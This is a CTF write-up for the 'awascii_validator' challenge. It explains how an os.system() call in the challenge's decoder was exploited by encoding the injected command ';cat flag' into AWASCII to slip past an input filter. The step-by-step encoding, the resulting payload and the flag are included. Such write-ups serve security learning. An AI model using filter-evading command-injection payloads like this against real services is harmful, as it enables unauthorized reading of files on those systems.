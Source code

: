 # awascii_validator

## Difficulty

Medium

## Points earned

822

## Description

> Learning a new language is hard... maybe this could help with practice
> 
> 10 point hint: Where to start looking
> 
> Author: Sheepiroo
> 
> https://awascii-validator.jellyc.tf/

![awascii_validator input](./images/awascii_validator_input.png "awascii_validator input")

## Solution

I thought about doing a shell injection attack for this one just like [awafy_me](./awafy_me.md) but the application protects against this:

![awascii_validator invalid input](./images/awascii_validator_invalid.png "awascii_validator invalid input")

I unlocked the hint for this one but it didn't tell me anything i didn't already know:

> `os.system()` in awafier_decoder.py

Then I got the wild idea to encode `;cat flag.txt` into AWASCII (see page 5 of the [AWA5.0 spec](https://github.com/TempTempai/AWA5.0/blob/6fe3b2ef290a3df9c94822634c4ceb6c872cd2fd/AWA5.0%20Specs.pdf)). I did this manually but you could write a script to do this for you (and I ended up doing this later for [rev/lost_in_translation](../rev/lost_in_translation.md)).

```md
# plaintext
;cat flag

# ASCII code for each character
62 29 02 31 52 39 16 02 40

# in 6-bit binary
111110 011101 000010 011111 110100 100111 010000 000010 101000

# converted to AWASCII
wa wa wa wa wa awa
awa wa wa wa awa wa
awa awa awa awa wa awa
awa wa wa wa wa wa
wa wa awa wa awa awa
wa awa awa wa wa wa
awa wa awa awa awa awa
awa awa awa awa wa awa
wa awa wa awa awa awa

# concatenated with starting "awa"
awawawawawawa awa awawawawa awawa awa awa awa awawa awa awawawawawawawawa awawa awa awawa awa awawawawa awawa awa awa awa awa awa awa awa awawa awawa awawa awa awa awa
```

![awascii_validator solution](./images/awascii_validator_sol.png "awascii_validator solution")

## Flag

`jellyCTF{m4st3rs_1n_awat1sm}`